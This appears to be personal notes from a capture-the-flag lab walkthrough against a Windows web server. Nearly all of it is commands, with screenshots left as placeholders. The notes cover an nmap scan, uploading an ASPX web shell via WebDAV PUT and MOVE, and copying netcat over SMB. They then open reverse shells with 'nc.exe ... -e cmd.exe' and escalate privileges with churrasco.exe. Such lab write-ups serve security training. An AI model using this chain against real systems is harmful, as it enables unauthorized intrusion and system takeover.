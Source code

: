 # Initial Recon

## Port Scanning

```shell
nmap -p- -T4 --min-rate 10000 -sCV -oA nmap/all -vv 10.129.159.209
```

![[Pasted image 20240522131316.png]]

## Website Enumeration 

http://10.129.159.209/

![[Pasted image 20240522131026.png]]

Wappalyzer Tech Stack Scan:

![[Pasted image 20240522130903.png]]

### Subdirectory Scan

![[Pasted image 20240522131625.png]]

![[Pasted image 20240522140743.png]]

```shell
curl -X PUT http://10.129.159.209/letmein/aspx_cmd.aspx -d @aspx_cmd.aspx
```

![[Pasted image 20240522141422.png]]

```
curl -X PUT http://10.129.159.209/letmein/aspx_cmd.txt -d @aspx_cmd.aspx
```

![[Pasted image 20240522141500.png]]

![[Pasted image 20240522141524.png]]

![[Pasted image 20240522141539.png]]

```shell
curl -X MOVE http://10.129.159.209/letmein/aspx_cmd.txt -H 'Destination:http://10.129.159.209/letmein/aspx_cmd.aspx'
```

![[Pasted image 20240522141741.png]]

![[Pasted image 20240522141829.png]]

```shell
whoami

nt authority\network service
```

![[Pasted image 20240522141849.png]]

```shell
dir
```

![[Pasted image 20240522141935.png]]

```
dir \
```

![[Pasted image 20240522142123.png]]

```
mkdir \tools
```
![[Pasted image 20240522142155.png]]

```
icacls \tools
```

![[Pasted image 20240522142226.png]]

```shell
impacket-smbserver hack ./ -smb2support
```

![[Pasted image 20240522142411.png]]

```powershell
systeminfo
```

![[Pasted image 20240522142621.png]]

```
copy \\10.10.14.45\hack\nc.exe \tools\nc.exe
```

![[Pasted image 20240522142811.png]]

```powershell
dir \tools
```

![[Pasted image 20240522142835.png]]

```shell
rlwrap nc -nlvp 4444
```

![[Pasted image 20240522144251.png]]


```powershell
\tools\nc.exe 10.10.14.45 4444 -e cmd.exe
```

![[Pasted image 20240522144331.png]]

```powershell
whoami
ipconfig
```

![[Pasted image 20240522144528.png]]

```powershell
whoami /all
```

![[Pasted image 20240522144750.png]]

```powershell
systeminfo
```

![[Pasted image 20240522144823.png]]

```powershell
cd \tools
copy \\10.10.14.45\hack\churrasco.exe .
```

![[Pasted image 20240522145204.png]]

```powershell
.\churrasco.exe -d "\tools\nc.exe 10.10.14.45 5555 -e cmd.exe"
```

![[Pasted image 20240522145511.png]]

```
whoami
whoami /priv
ipconfig
type "\Documents and Settings\Administrator\Desktop\root.txt"
```

![[Pasted image 20240522145843.png]]
